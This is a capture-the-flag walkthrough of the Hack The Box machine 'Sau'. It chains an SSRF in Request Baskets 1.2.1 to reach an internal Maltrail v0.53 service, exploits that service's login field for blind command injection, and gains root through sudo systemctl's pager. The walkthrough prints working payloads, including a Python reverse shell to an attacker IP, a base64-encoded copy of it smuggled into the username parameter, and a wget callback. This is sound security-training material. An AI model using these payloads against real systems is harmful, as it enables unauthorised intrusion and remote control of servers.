 ```yaml
---
title: Sau Writeup
---
```



Starting off with an `nmap` scan for the box: `nmap -sV -sC 10.10.11.224`:

![](https://i.imgur.com/eyG3xCr.png)

We see that there's 3 ports opened:
* `22` - SSH
* `80` - HTTP
* `55555` - Unknown

SSH is usually not a port to focus on when it comes to HTB machines, and port 80 is being filtered so we likely will not be able to access it. So let's focus our efforts on this unknown service running on port `55555`.

Visiting port `55555`, we see a service called `Requests Baskets`:

![](https://i.imgur.com/4tMYH4U.png)

If we view the source code of the page, we see that the version of `Requests Baskets` that it's running is `1.2.1`. If we lookup `Requests Baskets version 1.2.1 Exploit`, we'll come across [this Medium article](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7) that talks about exploiting a SSRF vulnerability! 

To summarize the article, we can take advantage of the baskets the web app creates to forward requests to internal network resources. So we could gain access to port `80` on the target by exploiting this SSRF! You can find more information about the Bash script that exploits this vulnerability [here](https://github.com/entr0pie/CVE-2023-27163), but the core part of it is this command:

`curl -s -X POST -H 'Content-Type: application/json' -d '{"forward_url": "http://127.0.0.1:80/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}' "http://<Target IP Address>:55555/api/baskets/<random value>"`

All this command is doing is making a `POST` request to create a basket with a random value as the basket name, then using a custom payload that will essentially allow our request to the newly created basket to be routed to the internal network on port `80`. The custom payload is:

```
{"forward_url": "http://127.0.0.1:80/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

We could recreate this request in Burpsuite and it would look like this: 

![](https://i.imgur.com/i2CJ7Ry.png)

Then we could simply go to the URL of the API basket:

![](https://i.imgur.com/F0oAP3R.png)

Then visit the given URL: `http://10.10.11.224:55555/j5wj8A0`:

![](https://i.imgur.com/cB2wW8e.png)

And we're able to access the service running on port 80! It's a `MailTrail v0.53` server!

Searching for vulnerabilities within this version of Mailtrail, we'll find that the username parameter within the login page allows us to execute commands. There's various exploits, such as [this one](https://github.com/spookier/Maltrail-v0.53-Exploit) which runs `curl` in order to exploit it by adding a semicolon at the end of the `username` parameter. 

The actual vulnerability is listed on [huntr.dev here](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) and as you can see, there's even an example payload:

```bash
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```

Let's take this and attempt to run the `whoami` command with this payload:

![](https://i.imgur.com/glhSVTg.png)

We don't get any output from the command, so it seems like we have blind OS command injection. We can confirm this by setting up a simple Python web server, then using a payload that makes a `GET` request to our Python server!

First, let's run the python server: `python3 -m http.server`, then our payload would be:

```bash
curl 'http://10.10.11.224:55555/j5wj8A0/login' \
  --data 'username=;`wget http://<Attacker IP Address>:8000`'
```

![](https://i.imgur.com/OIj8xGD.png)

As you can see, it is indeed blind OS command injection! Let's use a reverse shell payload using Python3:

```python3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Attacker IP Address>",<Attacker Listening Port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then base64 encode it, then let's add it to our curl requests as follows:

```bash
curl 'http://10.10.11.224:55555/j5wj8A0/login' --data 'username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0Ljk2Iiw2MDAxKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn="+|+base64+-d+|+sh`'
```

*note: notice how we removed all spaces & replaced them with addition symbols instead, we did this since we're making a GET request*

![](https://i.imgur.com/7pkRdmk.png)

And as you can see, we got a shell! Let's upgrade our shell by running `python3 -c import 'pty;pty.spawn("/bin/bash");'`

Let's move onto the privilege escalation component!

Listing what commands we can run as `sudo`:

![](https://i.imgur.com/plMzlyE.png)

We see we can run `systemctl` as sudo without a password, & check the status of the mailtrail service. If we search online for a privilege escalation with `systemctl status`, we'll come across [this guide](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/) for some `systemctl` privesc guidance.

Scrolling to the [Spawn Shell in the Pager Section](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager), it shows that we can execute `systemctl status <service name>` as root, then spawn a shell using `!sh` within the default pager that `systemctl` provides!

So technically, we should be able to first run `sudo systemctl status trail.service` which would give us a default pager:

![](https://i.imgur.com/4Lrtuzp.png)

Then we can type `!sh` within the pager:

![](https://i.imgur.com/o1FeoDo.png)

And we got `root`!

# References
* https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/
* https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7


